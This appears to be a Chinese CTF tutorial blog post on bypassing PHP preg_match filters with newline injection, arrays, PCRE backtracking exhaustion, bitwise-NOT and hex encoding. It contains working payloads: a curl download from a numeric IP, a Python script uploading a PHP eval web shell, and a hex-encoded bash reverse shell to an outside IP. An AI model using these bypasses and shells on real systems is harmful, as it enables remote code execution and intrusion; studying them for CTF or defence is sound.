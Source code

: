 ```yaml
---
title: preg_match
date: 2024-06-12 20:04:39
categories:
- PHP
tags:
- 函数绕过
description: " "
---
```


&emsp;&emsp;正则匹配也是php中最常见的一种，一般用来做一个~~装饰~~匹配作用，我们通常用以下几种绕过方式来规避正则匹配。

### 基本思路
&emsp;&emsp;正则匹配后面都会有一个修饰符，各位要判断相应的修饰符选择哪一种绕过方式，别无脑套，推荐一个网站[正则表达式在线测试](https://www.jyshare.com/front-end/854/),它提供了修饰符的介绍和语法参考，方便我们继续匹配。། – _ – །

### 换行符绕过（%0a）
&emsp;&emsp;通常的，preg_match()函数只能匹配一行数据，尤其是遇到这种情况
![ciscn](/images/ciscn.png)
&emsp;&emsp;看着如此长的过滤，但因为修饰符只有一个i（忽略大小写），我们可以直接%0a绕过(过滤点的方式可以将IP转成十进制)
```bash
cmd=cu%0arl+http://795973494:8000/s -o /tmp/s
```
&emsp;&emsp;简单的来说，当遇到修饰符只有i的时候，可以用换行符%0a秒了。
```
preg_match('/^flag$/i', $_GET['a'])
```
&emsp;&emsp;因此我们传入?a=flag%0a即可绕过

### 利用数组绕过
&emsp;&emsp;同md5()函数原理，当参数是数组类型的时候，会以报错的形式来绕过判断。但值得一提的是，整个if条件不执行，如果里面是输出flag形式的，此方法无用。
```
<?php
$a=$_GET['a'];
if(!preg_match("/flag/",$a)==false)
    die("hacker");
    echo $flag;
?>
```
&emsp;&emsp;这种我们可以用数组进行绕过，让if条件报错。不仅仅针对preg_match，数组绕过针对大多匹配的函数都有效，例如strcmp。
```
?a[]=flag.php
```

### PCRE回溯限制绕过
&emsp;&emsp;如何绕过呢，让回溯次数超过最大限制就可以使preg_match()函数返回false，从而绕过限制，中文的回溯次数在100万次就好崩溃，这个回溯保护使PHP为了防止关于正则表达式的DDOS   
payload:  
GET:
```
import requests
from io import BytesIO

payload =BytesIO(b'[]'+b'a'*1000000)
res = requests.get('[]?[]='+str(payload))
print(res.text)
```
POST:  
```
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('[]', files=files, allow_redirects=False)
print(res.headers)
```
&emsp;&emsp;[]即代表根据题目来填充

### 取反绕过
&emsp;&emsp;就是通过URL编码进行取反绕过，当然其他编码也是可以的，进制就更不用说了（通常使用十六进制），这里略微举个例子
```
<?php echo urlencode(~"phpinfo");
```
取反得到%8F%97%8F%96%91%99%90（取反使用的使不可见字符，遇到/s还是得寄）
```
?code=$_=~(%8F%97%8F%96%91%99%90);$_();
```


### %5c绕过
&emsp;&emsp;这个不常见，%5c其实就是"\\",了解一下就可以了
```
preg_match('/^[a-z0-9_]*$/isD',$act)
```
```
/i不区分大小写

/s匹配任何不可见字符，包括空格、制表符、换页符等等，等价于[fnrtv]

/D如果使用$限制结尾字符,则不允许结尾有换行;
```
&emsp;&emsp;这里存在/s和/D因此它会匹配到换行，%0a因此就无法绕过。这时候就可以使用%5c

### 单引号绕过
&emsp;&emsp;这个也不常用，在每一个字符前加上单引号可以绕过preg_match的匹配。
![单引号绕过](/images/单引号绕过.png)

### 进制绕过
&emsp;&emsp;通过进制绕过是通用的，我们可以将指令转成十六进制，然后用php -r进行php代码执行。  
![ciscn](/images/ciscn.png)
&emsp;&emsp;payload
```
cmd=php -r $a=substr(Z62617368202d63202262617368202d69203e26202f6465762f7463702f3132342e3232322e3133362e33332f3133333720303e263122,1);system(hex2bin($a));
```
&emsp;&emsp;这段十六进制是命令<font color=blue>bash -c "bash -i>& /dev/tcp/124.222.136.33/1337 0>&1"</font>这条命令的意思是向124.222.136.33(服务器的IP)的1337端口建立一个连接，输入(0)的内容变为命令输出(1)。之所以前面有z不属于16进制的字符存在时因为加不了引号，开头是数字的话，就会将类型识别为数字，若后续出现了字符串就会报错，所以我们要用substr将类型转为字符串。